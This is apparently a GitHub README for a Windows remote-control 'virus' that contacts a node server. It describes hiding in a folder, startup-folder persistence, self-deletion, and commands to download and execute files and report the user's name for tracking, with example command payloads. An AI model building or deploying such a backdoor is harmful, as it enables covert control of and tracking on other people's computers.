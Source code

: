 # Remote Tool / Virus
A Virus for Windows that listens to a node server for instructions


## Main Concept:
1. On start (if not already in the hidden folder) the program copys itself to a hidden folder, makes a link to itself in the startup folder, runs the copied version, then self deletes
2. Constantly tries to connect to a node server for instructions

## Built in commands
 * Download something from the internet eg. {download: "https://fosse.co/dl/mvm.exe"} (a simple ahk script that just moves the mouse 20px and then exits)
 * Run something (like that thing you downloaded from the internet, or anything else) eg. {execute: "mvm.exe"}
 * Send their username to the node server for tracking
 * Self Delete (for when things go wrong)




## Donate
  * If you like the project and would like to donate I have a paypal at matt.cfosse@gmail.com
  * BTC Address: 17hDC2X7a1SWjsqBJRt9mJb9fJjqLCwgzG
  * ETH Address: 0xFdcA914e1213af24fD20fB6855E89141DF8caF96